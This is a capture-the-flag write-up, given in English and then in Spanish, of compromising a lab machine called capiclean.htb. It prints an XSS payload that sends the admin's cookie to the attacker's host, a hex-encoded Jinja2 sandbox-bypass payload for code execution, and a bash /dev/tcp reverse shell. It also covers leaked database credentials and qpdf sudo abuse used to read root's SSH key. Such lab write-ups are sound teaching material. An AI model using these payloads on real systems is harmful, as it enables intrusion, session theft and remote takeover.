








Exploitation Summary
Exploitation process: The target machine was running a Flask web application on the capiclean.htb domain. Initial reconnaissance revealed a quote request form that was vulnerable to Cross-Site Scripting (XSS). By injecting a malicious JavaScript payload into the form fields, I was able to steal an administrator session cookie when the admin reviewed the submitted quote.
With administrator access to the dashboard, I discovered a QR code generation feature that was vulnerable to Server-Side Template Injection (SSTI) in Jinja2. Although the application was running in sandbox mode with filtering protections, I bypassed these restrictions using hexadecimal-encoded attribute access to reach Python's built-in functions, ultimately achieving remote code execution and establishing a reverse shell as the www-data user.
Post-exploitation enumeration revealed database credentials in the Flask application's configuration file. Connecting to the MySQL database, I extracted password hashes for the consuela user, which were easily cracked using an online hash cracking service. After gaining SSH access as consuela, I discovered sudo permissions on the qpdf binary, which I exploited to read arbitrary files as root, including the SSH private key from /root/.ssh/id_rsa, granting me complete root access to the system.
Technologies/Exploits: Cross-Site Scripting (XSS) for session hijacking, Jinja2 Server-Side Template Injection (SSTI) with sandbox bypass, MySQL credential extraction, password hash cracking (SHA-256), and qpdf privilege escalation via arbitrary file read.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target machine:

The scan reveals two open ports: SSH on port 22 and HTTP on port 80. When visiting the web server, I notice the application redirects to http://capiclean.htb/, so I add this hostname to my /etc/hosts file to ensure proper resolution.
Web Service Fingerprinting
Running whatweb against the target provides detailed information about the web stack:
http://capiclean.htb [200 OK] Bootstrap, Country[RESERVED][ZZ],
Email[contact@capiclean.htb], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.10.12],
IP[10.10.11.12], JQuery[3.0.0], Python[3.10.12], Script, Title[Capiclean],
Werkzeug[2.3.7], X-UA-Compatible[IE=edge]
The results are particularly interesting: the server is running Werkzeug 2.3.7 with Python 3.10.12. The Wappalyzer browser extension also identifies that the application is built with Flask. This is significant because Flask commonly uses Jinja2 templating engine, which can be vulnerable to Server-Side Template Injection (SSTI) if user input is improperly handled.
Directory Enumeration
Running Gobuster to enumerate directories and endpoints:

The scan reveals several interesting endpoints including /login, /dashboard, /quote, and /team. I also attempt virtual host enumeration but find no additional subdomains.
Discovering XSS in Quote Form
Navigating to /quote, I find a form that allows users to request a cleaning service quote. The form asks for an email address and lets you select up to three services. When submitted, it sends a POST request to the /sendMessage endpoint with the following data structure:

Initial testing shows that the endpoint accepts arbitrary parameters and always returns a 200 status code regardless of what's sent. This behavior suggests that someone (likely an administrator) might be reviewing these quote requests on the backend, making it a potential target for Cross-Site Scripting (XSS) attacks.
Credential Bruteforce Attempt
Before pursuing the XSS vector, I attempt to generate a custom wordlist using cewl from the /team page, which lists four employee names. I try bruteforcing both the /login endpoint and SSH with these potential usernames and generated passwords, but this approach yields no results.
Successful XSS Exploitation
Returning to the quote form, I begin testing for XSS vulnerabilities. After several attempts with different payloads, I successfully exfiltrate an administrator session cookie using the following URL-encoded payload:
<img src=x onerror=fetch("http://10.10.16.6:8000/?c="+document.cookie);></img>
This payload works by:
- Creating an image tag with an invalid source (
src=x)
- Triggering the
onerror event handler when the image fails to load
- Using the
fetch API to send the victim's cookies to my HTTP server
After submitting the malicious quote request, my HTTP server receives the administrator's session cookie:
session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.aOgDbQ.Wq_FhTCwB7g_bm0gf-DUVjIhHyA
By replacing my session cookie with this stolen value, I gain access to the administrator dashboard.
Administrator Dashboard - SSTI Discovery
The admin panel presents several options for managing the application:

After exploring the different features, I discover that the QR code generation functionality appears to process user input in an interesting way. Testing for Server-Side Template Injection vulnerabilities, I inject a basic Jinja2 payload to test for mathematical evaluation:

The response confirms the vulnerability - the template engine evaluates the expression:

Bypassing Jinja2 Sandbox Restrictions
Although I've confirmed SSTI, the application appears to be running in Jinja2 sandbox mode, which restricts access to dangerous functions and methods. Basic RCE payloads are blocked by these security filters.
After researching sandbox bypass techniques, I discover an excellent resource at https://techbrunch.github.io/patt-mkdocs/Server%20Side%20Template%20Injection/#jinja2-filter-bypass that documents various filter bypass methods. I find a working payload that uses hexadecimal encoding to obfuscate restricted attributes:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
This payload works by:
- Starting with the
request object available in Flask templates
- Accessing the
application object using the attr filter
- Using hex-encoded strings (
\x5f = underscore) to bypass filters that block __globals__, __getitem__, and __builtins__
- Importing the
os module to execute system commands
- Running the
id command via popen
Testing this payload confirms code execution:

Initial Access - Reverse Shell
Now that I have confirmed RCE, I modify the payload to establish a reverse shell connection. I replace the id command with a bash reverse shell:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"')|attr('read')()}}
After setting up a netcat listener on port 443 and submitting the payload, I successfully receive a reverse shell connection as the www-data user.
Post-Exploitation - Database Credential Discovery
Exploring the filesystem, I find a user named consuela in /home. Looking for ways to escalate privileges or move laterally, I examine the Flask application files and discover database credentials in app.py:
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
Running ss -tuln to check for local listening ports confirms MySQL is running locally:

Database Enumeration
Connecting to the MySQL database using the discovered credentials, I explore the tables and find user accounts with SHA-256 password hashes. I extract these hashes and submit them to CrackStation, an online hash cracking service.
The hashes crack quickly, revealing the credentials:
consuela:simple and clean
Using these credentials, I successfully authenticate via SSH as the consuela user and retrieve the user flag.
Privilege Escalation - qpdf Exploitation
After gaining access as consuela, I check for sudo privileges:
sudo -l
The output reveals an interesting permission:
Matching Defaults entries for consuela on iclean:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User consuela may run the following commands on iclean:
(ALL) /usr/bin/qpdf
The user can run /usr/bin/qpdf with sudo privileges without a password. Researching privilege escalation techniques for qpdf, I find a helpful resource: https://h3ll-ka1ser.gitbook.io/boot2root/privilege-escalation/linux/qpdf-privilege-escalation
Understanding qpdf Exploitation
The qpdf tool is designed for PDF file manipulation, including operations like adding attachments and extracting content. When run with sudo privileges, it can be abused to read arbitrary files as root by adding them as attachments to a PDF and then extracting them.
The exploitation technique involves:
- Creating or using a base PDF file
- Using qpdf with sudo to attach a sensitive file (like root's SSH private key) to the PDF
- Extracting the attached file to read its contents
Reading Root's SSH Key
I use qpdf to read the /root/.ssh/id_rsa file, which contains root's private SSH key:

After successfully extracting the private key, I save it to my local machine as id_rsa, set the appropriate permissions, and use it to authenticate as root via SSH:
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.12
This grants me complete root access to the system, allowing me to retrieve the root flag and fully compromise the machine.
Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba una aplicación web Flask en el dominio capiclean.htb. El reconocimiento inicial reveló un formulario de solicitud de presupuesto vulnerable a Cross-Site Scripting (XSS). Inyectando un payload JavaScript malicioso en los campos del formulario, conseguí robar la cookie de sesión del administrador cuando éste revisó el presupuesto enviado.
Con acceso de administrador al panel, descubrí una funcionalidad de generación de códigos QR vulnerable a Server-Side Template Injection (SSTI) en Jinja2. Aunque la aplicación se ejecutaba en modo sandbox con protecciones de filtrado, conseguí evadir estas restricciones utilizando acceso a atributos codificados en hexadecimal para alcanzar las funciones integradas de Python, logrando finalmente ejecución remota de código y estableciendo una reverse shell como usuario www-data.
La enumeración post-explotación reveló credenciales de base de datos en el archivo de configuración de la aplicación Flask. Conectándome a la base de datos MySQL, extraje hashes de contraseñas del usuario consuela, que crackeé fácilmente usando un servicio online de cracking de hashes. Tras conseguir acceso SSH como consuela, descubrí permisos sudo sobre el binario qpdf, que exploté para leer archivos arbitrarios como root, incluyendo la clave privada SSH de /root/.ssh/id_rsa, otorgándome acceso root completo al sistema.
Tecnologías/Exploits: Cross-Site Scripting (XSS) para secuestro de sesión, Server-Side Template Injection (SSTI) de Jinja2 con bypass de sandbox, extracción de credenciales MySQL, cracking de hashes de contraseñas (SHA-256), y escalada de privilegios con qpdf mediante lectura arbitraria de archivos.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar puertos abiertos y servicios en la máquina objetivo:
El escaneo revela dos puertos abiertos: SSH en el puerto 22 y HTTP en el puerto 80. Al visitar el servidor web, observo que la aplicación redirige a http://capiclean.htb/, así que añado este hostname a mi archivo /etc/hosts para asegurar la resolución correcta.
Fingerprinting del Servicio Web
Ejecutando whatweb contra el objetivo proporciona información detallada sobre la pila web:
http://capiclean.htb [200 OK] Bootstrap, Country[RESERVED][ZZ],
Email[contact@capiclean.htb], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.10.12],
IP[10.10.11.12], JQuery[3.0.0], Python[3.10.12], Script, Title[Capiclean],
Werkzeug[2.3.7], X-UA-Compatible[IE=edge]
Los resultados son particularmente interesantes: el servidor ejecuta Werkzeug 2.3.7 con Python 3.10.12. La extensión de navegador Wappalyzer también identifica que la aplicación está construida con Flask. Esto es significativo porque Flask comúnmente usa el motor de plantillas Jinja2, que puede ser vulnerable a Server-Side Template Injection (SSTI) si la entrada del usuario se maneja incorrectamente.
Enumeración de Directorios
Ejecutando Gobuster para enumerar directorios y endpoints:
El escaneo revela varios endpoints interesantes incluyendo /login, /dashboard, /quote y /team. También intento enumeración de virtual hosts pero no encuentro subdominios adicionales.
Descubriendo XSS en el Formulario de Presupuesto
Navegando a /quote, encuentro un formulario que permite a los usuarios solicitar un presupuesto de servicio de limpieza. El formulario pide una dirección de email y permite seleccionar hasta tres servicios. Al enviarlo, realiza una petición POST al endpoint /sendMessage con la siguiente estructura de datos:
Las pruebas iniciales muestran que el endpoint acepta parámetros arbitrarios y siempre devuelve un código de estado 200 independientemente de lo que se envíe. Este comportamiento sugiere que alguien (probablemente un administrador) podría estar revisando estas solicitudes de presupuesto en el backend, convirtiéndolo en un objetivo potencial para ataques de Cross-Site Scripting (XSS).
Intento de Fuerza Bruta de Credenciales
Antes de perseguir el vector XSS, intento generar una lista de palabras personalizada usando cewl desde la página /team, que lista cuatro nombres de empleados. Intento hacer fuerza bruta tanto al endpoint /login como a SSH con estos posibles nombres de usuario y contraseñas generadas, pero este enfoque no arroja resultados.
Explotación Exitosa de XSS
Volviendo al formulario de presupuesto, comienzo probando vulnerabilidades XSS. Tras varios intentos con diferentes payloads, consigo exfiltrar exitosamente una cookie de sesión del administrador usando el siguiente payload codificado en URL:
<img src=x onerror=fetch("http://10.10.16.6:8000/?c="+document.cookie);></img>
Este payload funciona mediante:
- Crear una etiqueta de imagen con una fuente inválida (
src=x)
- Activar el manejador de eventos
onerror cuando la imagen falla al cargar
- Usar la API
fetch para enviar las cookies de la víctima a mi servidor HTTP
Tras enviar la solicitud de presupuesto maliciosa, mi servidor HTTP recibe la cookie de sesión del administrador:
session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.aOgDbQ.Wq_FhTCwB7g_bm0gf-DUVjIhHyA
Reemplazando mi cookie de sesión con este valor robado, obtengo acceso al panel de administrador.
Panel de Administrador - Descubrimiento de SSTI
El panel de administrador presenta varias opciones para gestionar la aplicación:
Tras explorar las diferentes funcionalidades, descubro que la funcionalidad de generación de códigos QR parece procesar la entrada del usuario de manera interesante. Probando vulnerabilidades de Server-Side Template Injection, inyecto un payload básico de Jinja2 para probar la evaluación matemática:
La respuesta confirma la vulnerabilidad - el motor de plantillas evalúa la expresión:
Evadiendo Restricciones del Sandbox de Jinja2
Aunque he confirmado SSTI, la aplicación parece estar ejecutándose en modo sandbox de Jinja2, que restringe el acceso a funciones y métodos peligrosos. Los payloads básicos de RCE son bloqueados por estos filtros de seguridad.
Tras investigar técnicas de bypass del sandbox, descubro un excelente recurso en https://techbrunch.github.io/patt-mkdocs/Server%20Side%20Template%20Injection/#jinja2-filter-bypass que documenta varios métodos de bypass de filtros. Encuentro un payload funcional que usa codificación hexadecimal para ofuscar atributos restringidos:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
Este payload funciona mediante:
- Comenzar con el objeto
request disponible en plantillas Flask
- Acceder al objeto
application usando el filtro attr
- Usar cadenas codificadas en hexadecimal (
\x5f = guion bajo) para evadir filtros que bloquean __globals__, __getitem__ y __builtins__
- Importar el módulo
os para ejecutar comandos del sistema
- Ejecutar el comando
id mediante popen
Probando este payload confirma la ejecución de código:
Acceso Inicial - Reverse Shell
Ahora que he confirmado RCE, modifico el payload para establecer una conexión de reverse shell. Reemplazo el comando id con una reverse shell de bash:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"')|attr('read')()}}
Tras configurar un listener de netcat en el puerto 443 y enviar el payload, recibo exitosamente una conexión de reverse shell como usuario www-data.
Post-Explotación - Descubrimiento de Credenciales de Base de Datos
Explorando el sistema de archivos, encuentro un usuario llamado consuela en /home. Buscando formas de escalar privilegios o moverme lateralmente, examino los archivos de la aplicación Flask y descubro credenciales de base de datos en app.py:
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
Ejecutando ss -tuln para comprobar puertos en escucha local confirma que MySQL se está ejecutando localmente:
Enumeración de Base de Datos
Conectándome a la base de datos MySQL usando las credenciales descubiertas, exploro las tablas y encuentro cuentas de usuario con hashes de contraseñas SHA-256. Extraigo estos hashes y los envío a CrackStation, un servicio online de cracking de hashes.
Los hashes se crackean rápidamente, revelando las credenciales:
consuela:simple and clean
Usando estas credenciales, me autentico exitosamente mediante SSH como usuario consuela y recupero la flag de usuario.
Escalada de Privilegios - Explotación de qpdf
Tras conseguir acceso como consuela, compruebo los privilegios sudo:
sudo -l
La salida revela un permiso interesante:
Matching Defaults entries for consuela on iclean:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User consuela may run the following commands on iclean:
(ALL) /usr/bin/qpdf
El usuario puede ejecutar /usr/bin/qpdf con privilegios sudo sin contraseña. Investigando técnicas de escalada de privilegios para qpdf, encuentro un recurso útil: https://h3ll-ka1ser.gitbook.io/boot2root/privilege-escalation/linux/qpdf-privilege-escalation
Entendiendo la Explotación de qpdf
La herramienta qpdf está diseñada para manipulación de archivos PDF, incluyendo operaciones como añadir adjuntos y extraer contenido. Cuando se ejecuta con privilegios sudo, puede abusarse para leer archivos arbitrarios como root añadiéndolos como adjuntos a un PDF y luego extrayéndolos.
La técnica de explotación implica:
- Crear o usar un archivo PDF base
- Usar qpdf con sudo para adjuntar un archivo sensible (como la clave privada SSH de root) al PDF
- Extraer el archivo adjunto para leer su contenido
Leyendo la Clave SSH de Root
Uso qpdf para leer el archivo /root/.ssh/id_rsa, que contiene la clave privada SSH de root:
Tras extraer exitosamente la clave privada, la guardo en mi máquina local como id_rsa, establezco los permisos apropiados y la uso para autenticarme como root mediante SSH:
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.12
Esto me otorga acceso root completo al sistema, permitiéndome recuperar la flag de root y comprometer completamente la máquina.